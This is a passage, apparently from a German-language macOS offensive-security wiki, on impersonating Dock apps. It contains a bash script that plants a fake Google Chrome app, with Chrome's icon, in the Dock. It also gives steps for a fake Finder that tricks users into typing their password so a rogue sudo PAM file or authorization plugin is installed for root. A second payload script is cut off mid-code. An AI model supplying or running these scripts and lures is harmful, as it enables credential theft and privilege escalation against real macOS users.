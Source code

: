```bash
<string>1.0</string>
<key>CFBundleInfoDictionaryVersion</key>
<string>6.0</string>
<key>CFBundlePackageType</key>
<string>APPL</string>
<key>CFBundleIconFile</key>
<string>app</string>
</dict>
</plist>
EOF

# Copy icon from Google Chrome
cp /Applications/Google\ Chrome.app/Contents/Resources/app.icns /tmp/Google\ Chrome.app/Contents/Resources/app.icns

# Add to Dock
defaults write com.apple.dock persistent-apps -array-add '<dict><key>tile-data</key><dict><key>file-data</key><dict><key>_CFURLString</key><string>/tmp/Google Chrome.app</string><key>_CFURLStringType</key><integer>0</integer></dict></dict></dict>'
sleep 0.1
killall Dock
```
{{#endtab}}

{{#tab name="Finder Impersonation"}}
Einige Vorschläge:

- Sie **können den Finder nicht aus dem Dock entfernen**, also wenn Sie ihn zum Dock hinzufügen möchten, könnten Sie den gefälschten Finder direkt neben den echten setzen. Dafür müssen Sie **den gefälschten Finder-Eintrag am Anfang des Dock-Arrays hinzufügen**.
- Eine andere Möglichkeit ist, ihn nicht im Dock zu platzieren und ihn einfach zu öffnen, "Finder fragt, um den Finder zu steuern" ist nicht so seltsam.
- Eine weitere Möglichkeit, um **ohne Passwortabfrage** auf root zu eskalieren, ist, den Finder wirklich nach dem Passwort zu fragen, um eine privilegierte Aktion auszuführen:
- Bitten Sie den Finder, eine neue **`sudo`**-Datei nach **`/etc/pam.d`** zu kopieren (Die Eingabeaufforderung, die nach dem Passwort fragt, wird anzeigen, dass "Finder sudo kopieren möchte")
- Bitten Sie den Finder, ein neues **Authorization Plugin** zu kopieren (Sie könnten den Dateinamen kontrollieren, sodass die Eingabeaufforderung, die nach dem Passwort fragt, anzeigen wird, dass "Finder Finder.bundle kopieren möchte")
```bash
#!/bin/sh

# THIS REQUIRES Finder TO BE INSTALLED (TO COPY THE ICON)
# If you want to removed granted TCC permissions: > delete from access where client LIKE '%finder%';

rm -rf /tmp/Finder.app/ 2>/dev/null

# Create App structure
mkdir -p /tmp/Finder.app/Contents/MacOS
mkdir -p /tmp/Finder.app/Contents/Resources

# Payload to execute
cat > /tmp/Finder.app/Contents/MacOS/Finder.c <<EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
char *cmd = "open /System/Library/CoreServices/Finder.app & "
"sleep 2; "
```